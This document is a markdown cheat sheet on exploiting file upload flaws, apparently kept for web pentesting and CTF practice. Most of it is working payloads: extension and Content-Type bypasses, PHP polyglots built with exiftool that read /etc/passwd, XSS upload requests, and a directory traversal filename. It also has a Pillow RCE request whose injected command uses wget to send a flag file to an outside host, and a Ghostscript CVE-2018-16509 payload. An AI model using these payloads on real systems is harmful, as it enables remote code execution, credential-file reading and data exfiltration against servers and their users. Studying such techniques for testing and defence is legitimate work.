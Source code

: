 # Basic
### direct access
- We can upload a `html` or `php` file, and run it. (shell upload and exploit)
  ```html
  <img src="https://cvefix.ir/images/profile.png">     # Static resource 
  ```
### indirect access (tokenized)
- We are not able to upload shell and exploit.
  ```html
  <img src="https://cvefix.ir/api/v1/get_image/44">    # Function
  ```

# Bypass
- Check three part in upload request to understand checker function
  - Extension Check (file type)
  - Content-type header Check
  - Content Check (Polygot)
  
### Extension check
- Fuzz for extensions (`sample.php§§.png`) to check which one is not blocked.
- Check these payloads, if the extension of uploaded file is `png`  →  USELESS PAYLOAD
  ```bash
  # Alternative extensions
  .phar
  .phtml

  # Double extension
  .php.png
  .png.php

  # Extension with delimiter
  .php%00.png
  .png%00.php
  .php#.jpg
  .php%0a.png

  # Adding extra dots
  .php.
  .jsp...................
  ```

### Content check
- Adding image magic bytes to start of uploaded file.
  ```html
  -----------------------------227218775938856708732970334425
  Content-Disposition: form-data; name="file"; filename="1.htm"
  Content-Type: image/png

  ‰PNG
  

  <html><script>alert(origin)</script></html>
  ```
- Add codes to end of an image file
  ```bash
  echo "<?php echo system('id'); >" >> small.png         # Add code at end of a `png` file.
  mv small.png small.php                                 # if there is no extension check
  ```
- Use polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata.
  ```bash
  exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" a.jpg -o polyglot.php
  ```

### `Content-Type` Header check
- Change the file extension (`html` → `jpg`), then upload the file and intercept the request in BurpSuite, finally modify file extension in Burp (`1.jpg` → `1.html`) and send the request.
- Change Content-type:
  - `Content-Type: application/octet-stream`  →  `Content-Type: image/jpeg`

# Exploit
- Uploading certain types of file (`.php`, `.jsp`, ...) to be executed as code.
  ```php
  <?php echo file_get_contents('/etc/passwd'); ?>
  ```
  ```bash
  exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" a.jpg -o polyglot.php
  ```
- Uploading static files (`.html`, `.svg`, ...) that is used for XSS (origin of request will be the origin of victim).
  ```html
  -----------------------------227218775938856708732970334425
  Content-Disposition: form-data; name="profile_image"; filename="profile_image.html"         # We upload a .jpg then change the extension here
  Content-Type: image/jpeg                                                                    # We bypass content-type header check by .html → .jpeg

  ‰PNG
  

  <!DOCTYPE html>
  <html>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>PoC</title>
  </head>
  <body>
    <script type="text/javascript">alert(origin)</script>
  </body>
  </html>
  ```
- Uploading Large files, results in DoS attack by filling the available disk space.
- Directory traversal
  - Upload files to unanticipated locations.
    ```bash
    file=../../../../../../etc/hosts
    ```
  - Put payload in an executable directory.
    - Change `Content-Disposition:` in request body by adding `..%2f`. (We should use URL-encode)
    - After uploading payload, should change url path to access correct direcotry of uploaded payload.
    ```html
    -----------------------------1349499273377714020420439545
    Content-Disposition: form-data; name="avatar"; filename="..%2fa.php"
    Content-Type: application/octet-stream

    <?php echo file_get_contents('/etc/passwd'); ?>
    ```
- RCE with vulnerability in a python library to process images (`Pillow==8.4.0`)
  ```bash
  POST /api/alphafy HTTP/1.1
  (Request Body)
  {
    "image":"iVB....TkSuQmCC",
    "background":["
      exec('import os;os.system(\"flag=$(cat ../flag.txt);wget http://cvefix.ir:8080?flag=${flag}\")')",
      0,
      0
    ]
  }
  ```
  - Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509.
    - _https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509_
    - Save his file as `1.jpg`.
    ```bash
    %!PS-Adobe-3.0 EPSF-3.0
    %%BoundingBox: -0 -0 100 100
    userdict /setpagedevice undef
    save
    legal
    { null restore } stopped { pop } if
    { legal } stopped { pop } if
    restore
    mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
    ```

  # Resource
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
  - https://book.hacktricks.xyz/pentesting-web/file-upload
